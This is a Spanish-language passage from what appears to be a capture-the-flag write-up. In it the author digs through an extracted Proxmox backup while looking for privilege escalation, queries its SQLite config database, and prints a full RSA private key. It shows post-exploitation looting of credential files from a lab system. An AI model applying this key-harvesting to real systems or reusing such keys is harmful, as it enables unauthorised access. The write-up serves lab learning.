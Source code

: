 ```bash
sysadmin@corporate:/tmp/var/tmp/proxmox-OGXn58aE/etc$ cd gitea
sysadmin@corporate:/tmp/var/tmp/proxmox-OGXn58aE/etc/gitea$ ls -la
total 12
drwxr-x---  2 sysadmin sysadmin 4096 Apr 12  2023 .
drwxr-xr-x 96 sysadmin sysadmin 4096 Apr 15  2023 ..
-rw-r--r--  1 sysadmin sysadmin 1710 Apr 12  2023 app.ini
```

Sin embargo esto no es de nuestro interés, ya que lo queremos hacer es escalar privilegios; pero del resto no parece haber más nada y la carpeta del Proxmox (pve) está vacia, por lo que acá no hay nada que nos pueda servir.

Del otro lado, el comprimido `proxmoxpve.2023-04-15.15.36.28.tar` parece tener una base de datos SQLite con información...

```bash
sysadmin@corporate:/tmp/var/tmp/proxmox-OGXn58aE/var/lib/pve-cluster$ sqlite3 config.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE tree (  inode INTEGER PRIMARY KEY NOT NULL,  parent INTEGER NOT NULL CHECK(typeof(parent)=='integer'),  version INTEGER NOT NULL CHECK(
typeof(version)=='integer'),  writer INTEGER NOT NULL CHECK(typeof(writer)=='integer'),  mtime INTEGER NOT NULL CHECK(typeof(mtime)=='integer'),  ty
pe INTEGER NOT NULL CHECK(typeof(type)=='integer'),  name TEXT NOT NULL,  data BLOB);
sqlite> select name from tree;
__version__
storage.cfg
user.cfg
datacenter.cfg
virtual-guest
priv
... [snip]
```

y hay una fila en esta tabla con un dato interesante

```bash
sqlite> select data from tree where name="authkey.key";
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4qucBTokukm1jZuslN5hZKn/OEZ0Qm1hk+2OYe6WtjXpSQtG
EY8mQZiWNp02UrVLOBhCOdW/PDM0O2aGZmlRbdN0QVC6dxGgE4lQD9qNKhFqHgdR
Q0kExxMa8AiFNJQOd3XbLwE5cEcDHU3TC7er8Ea6VkswjGpxn9LhxuKnjAm81M4C
frIcePe9zp7auYIVVOu0kNplXQV9T1l+h0nY/Ruch/g7j9sORzCcJpKviJbHGE7v
OXxqKcxEOWntJmHZ8tVb4HC4r3xzhA06IRj3q/VrEj3H6+wa6iEfYJgp5flHtVA8
8TlXitfsBH+ZT41CH3/a6JudMYSLGKvatGgjJQIDAQABAoIBAQCBBoBcNVmctMJk
ph2Z6+/ydhXyOaCKA2tM4idvNXmSpKNzUbiD3EFBi5LN6bV3ZP05JA3mj/Y4VUlB
Gr4cY4zXgEsntsU9a8n79Oie7Z/3N0x5ZV7rdxACJazqv17bq/+EHpEyc3b3o2Rx
dNBSVi3IKup8nnY3J4wgFtEv/eqzefDc4ODcDIz/j46eh/TZLll7zhesJ6Icfml3
aZ3GjWdQWOwlj1rDCP7S/ehryNbB7p2T/FVHw6tbMf7XYtjlWzQbns+m9sQmrD3Q
Lmw9zk7NyCuZi0/l8XiaJINv4VWFUuU4/KrifW7az81AAVcNLSKkg2AQ9Q3VSdyH
z1p5Hz8tAoGBAP5wTIwhG781oHR3vu15OnoII9DFm80CtmeqA5mL2LzHB5Po2Osn
wkspMpKioukFWcnwZO9330h/FSyv6zYJP/5QfwTkskEsYli6emdwJgb0C+HJYVVx
/CWeDNvLhyNam0HcqzXMFzQhLfGaKoq4FZ95ozNOCv1K83G379o7VsRPAoGBAOQP
sFdEEgDB/t0lnOEFfRSTwtJ2/IlLwBLMlm09aIwB7DqI9dl8fIcq8YR03XhGzIg0
H28xf3b5Ql619VJ9YESRSq+F4VjuMzJpXJuHshR9wQZy8RDEtr43OwTBOG7sUNKi
I0MBFxEmfaPeZCIZCLouam1JBNAA3YwFxlPm8WBLAoGAXOmtSk6cz0pJ+b3wns9y
JzXpvkcrCcY/zcMr5VpIH0ee4MhaziSKst+sdBen3efyTefXNAtWIicmGFd1URo3
oCrM94B8B4ipsTUHldZCTK+51w2u2YDyTtpUX78G7kYcBAUNEGwi3QpwuJVPi7CF
VOMaUZXiNXS1SYWdtNeOa8kCgYA60g0SRN070s0wLo5Kv0amcwHRlJzHsIDmmFvH
6wm26pwJ8N8v69qWZi4KkrW4WtJP4tmkrSiJ//ntQZL3ZpzYsnyHzsjzTeRogSJA
fvwgKtsJFcY1I/daEhanwEoU2eByoxzjIDnZ04qeJDLBVKGam3QZobabC04Y2jhv
1WW2BwKBgCD/j2QWr62kh48MY5hCG94YrZRiH1+WdJul+HpTXGax0kB8bXXehh7N
n4+xaiJCTUElVEm2KH/7C8yKoytm8HR7eRrq7SJSbWEmvI/1Yhj1A9g2/vrCxOlm
GtYXpgsbUgcGgg3Hr9/piitsBlSME6niawdxaMT9eLyLNUAnHRec
-----END RSA PRIVATE KEY-----
```